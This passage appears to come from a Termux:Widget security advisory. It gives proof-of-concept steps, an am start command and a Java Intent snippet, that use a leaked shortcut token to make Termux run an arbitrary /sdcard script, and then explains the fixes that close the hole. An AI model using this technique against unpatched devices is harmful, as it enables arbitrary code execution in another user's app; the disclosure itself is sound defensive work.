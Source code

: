 4. Create an exploit file from termux terminal: `echo 'whoami; su -c whoami; sleep 5' > /sdcard/exploit.sh`

5. Trigger the exploit from termux terminal or `adb shell`: `am start --user 0 -n com.termux.widget/.TermuxLaunchShortcutActivity -d /sdcard/exploit.sh --es com.termux.shortcut.token 22e30b81-5d67-4ee3-be0e-66169f637025`

Or use java from any app.

```java
    Intent intent = new Intent();
    intent.setClassName("com.termux.widget", "com.termux.widget.TermuxLaunchShortcutActivity");
    intent.setData(Uri.parse("/sdcard/exploit.sh"));
    intent.putExtra("com.termux.shortcut.token", "22e30b81-5d67-4ee3-be0e-66169f637025");
    startActivity(intent);
```

The termux app will run the `/sdcard/exploit.sh` script with `/data/data/com.termux/files/usr/bin/sh` and `/sdcard` being mounted as `noexec` would not be an issue.

### 2. Fix

1. Use `ShortcutManager` APIs to create pinned shortcut on android version `>=8`. This is better way to create shortcuts since launcher does not get access to shortcut data of the app and android itself stores them, so even the launcher app would not get the token and would not be able to run any scripts whose shortcut was not explicitly created by the user. For more info on shortcut types, check https://github.com/agnostic-apollo/TaskerLauncherShortcut#shortcut-types. ([`e94d7777`](https://github.com/termux/termux-widget/commit/e94d7777))

2. The token being previously used and shortcuts created on older versions of `Termux:Widget` were invalidated so that in case a malicious app already had the token, it could not use it anymore and so that users on Android `>= 8` were forced to re-create their shortcuts with safer pinned shortcuts API instead of continuing to use the old unsafer static shortcuts API. ([`32f344ee`](https://github.com/termux/termux-widget/commit/32f344ee))

3. The canonical path of the executable received by `TermuxLaunchShortcutActivity` was [found](https://github.com/termux/termux-widget/blob/v0.13.0/app/src/main/java/com/termux/widget/TermuxWidgetProvider.java#L183) before it was processed. Shortcuts that were broken symlinks or whose canonical path was not under the `~/.shortcuts` or `~/.termux` directory were [not shown](https://github.com/termux/termux-widget/blob/v0.13.0/app/src/main/java/com/termux/widget/TermuxWidgetService.java#L30) and [execution for the later was not allowed](https://github.com/termux/termux-widget/blob/v0.13.0/app/src/main/java/com/termux/widget/TermuxWidgetProvider.java#L186) even if the path was sent. ([`32f344ee`](https://github.com/termux/termux-widget/commit/32f344ee), [`32f344ee`](https://github.com/termux/termux-widget/commit/13954b8b), [`bcb0ab6c`](https://github.com/termux/termux-widget/commit/bcb0ab6c))

Using pinned shortcuts on android version `>=8` and not allowing execution of files whose canonical path was not under the `~/.shortcuts` or `~/.termux` directory provides reasonable security against any arbitrary code execution or privilege escalation. Users who are on Android versions `< 8` would still have to use static shortcuts and should be careful about which apps they create a shortcut in, since such apps would be able to execute any scripts under the allowed directories. Users generally should be very careful about which launcher or non-launcher shortcut apps (like [Shortcut Maker](https://play.google.com/store/apps/details?id=rk.android.app.shortcutmaker)) they install on their device, since these apps get to execute dangerous shortcuts for apps which can have serious consequences if not protected properly by the apps.
